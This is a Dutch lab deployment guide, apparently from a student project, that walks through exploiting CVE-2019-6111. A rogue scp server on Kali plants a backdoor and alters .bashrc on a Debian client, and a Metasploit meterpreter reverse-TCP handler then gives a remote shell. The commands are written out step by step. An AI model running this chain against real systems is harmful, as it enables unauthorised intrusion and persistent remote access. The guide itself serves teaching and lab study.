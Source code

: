 # User Deployment Guide - CVE-2019-6111

Deze deloyment guide beschrijft alle nodige stappen die vereist zijn om de CVE-2019-6111 exploit uit te voeren, met als resultaat een reverse shell op de Debian client.

## Inhoudsopgave

1.  [Vereisten](#vereisten)
2.  [Instellen Omgeving](#instellen-omgeving)
    1.  [Debian (Jessie) Machine](#debian-jessie-machine)
    2.  [Kali Linux (Rolling) Machine](#kali-linux-rolling-machine)
3.  [CVE-2019-6111](#cve-2019-6111)
4.  [Metasploit](#metasploit)

<div class="page"/>

# Vereisten<a name="vereisten"></a>

-   [VirtualBox](https://www.virtualbox.org/wiki/Downloads)
-   [Bash](https://www.gnu.org/software/bash/) of [PowerShell](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell?view=powershell-7.1)
-   [Git](https://git-scm.com/downloads)
-   [Debian (Jessie) vdi](https://www.osboxes.org/debian/#debian-8-jessie-vbox)
-   [Kali Linux (Rolling) vdi](https://www.osboxes.org/kali-linux/#kali-rolling-vbox)

# Instellen Omgeving<a name="instellen-omgeving"></a>

Om deze exploit te kunnen uitvoeren, moeten we eerst een omgeving opzetten. Hiervoor hebben we twee virtuele machines nodig: een Debian (Jessie) machine en een Kali Linux (Rolling) machine. De Debian machine zal de machine zijn die we willen aanvallen, en de Kali Linux machine zal de machine zijn die we gebruiken om de aanval uit te voeren.

## Debian (Jessie) Machine<a name="debian-jessie-machine"></a>

Om deze virtuele machine te installeren, hebben we een script geschreven dat de installatie automatisch uitvoert. Dit script is te vinden in de map `src/debian` van deze repository. Om het script uit te voeren, moet je het volgende commando uitvoeren:

```console
$ bash unattended_install.sh
```

of

```console
PS1> .\unattended_install.ps1
```

## Kali Linux (Rolling) Machine<a name="kali-linux-rolling-machine"></a>

Om deze virtuele machine te installeren, hebben we een script geschreven dat de installatie automatisch uitvoert. Dit script is te vinden in de map `src/kali` van deze repository. Om het script uit te voeren, moet je het volgende commando uitvoeren:

```console
$ bash unattended_install.sh
```

of

```console
PS1> .\unattended_install.ps1
```

Deze exploit vereist dat de Debian client een bestand naar keuze download van een "bad" scp server. De scp server is in dit geval de Kali virtual machine. Om van onze Kali server een "bad" scp server te maken, moeten we een custom `scp` binary installeren. Deze binary is te vinden in de map `src/kali/provision/golang/bin` van deze repository. Om deze binary te installeren, moet je het volgende commando uitvoeren:

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
# git clone https://github.com/AntonVanAssche/CSV-NPE2223.git
# cp -r CSV-NPE2223/src/kali/provision/golang/bin/bad_scp /usr/bin/scp
```

Ook zal men de backdoor in de `/tmp` map moeten plaatsen. Deze backdoor is te vinden in de map `src/kali/provision/backdoor` van deze repository. Om deze backdoor te installeren, moet je het volgende commando uitvoeren:

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
# cp -r CSV-NPE2223/src/kali/provision/backdoor /tmp/backdoor
```

<div class="page"/>

# CVE-2019-6111<a name="cve-2019-6111"></a>

Het uitvoeren van de exploit is vrij eenvoudig. We moeten enkel een bestand downloaden van de "bad" scp server. Dit bestand kan eender welk bestand zijn. In dit voorbeeld gebruiken we het bestand `testfile.txt`. Om dit bestand te downloaden, moeten we het volgende commando uitvoeren:

```console
$ scp 192.168.0.121:testfile.txt .
```

Na het uitvoeren zal men zien dat er inderdaad een bestand genaamd `testfile.txt` is gedownload. Maar wanneer we `ls -a` doen zal men al snel zien dat er ook een bestand `.backdoor` is gedownload en de `.bashrc` file is aangepast.

# Metasploit<a name="metasploit"></a>

Na dat de backdoor op de Debian client is gedownload, kunnen we een reverse shell opzetten. Hiervoor gebruiken we de Metasploit framework. Om de Metasploit framework te starten, moeten we het volgende commando uitvoeren:

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
$ msfconsole -q -x "handler -p linux/aarch64/meterpreter/reverse_tcp -P 4444 -H 192.168.0.121"
```

Van zodra de gebruiker een nieuwe Bash shell opent, zal dit gedetecteerd worden door de Metasploit. Vervolgens kan men dan de sessie starten door het volgende commando uit te voeren:

```console
msf6 > sessions 1
```

Om een reverse shell op te zetten, moeten we dan simpeleweg het volgende commando uitvoeren:

```console
meterpreter > shell
```
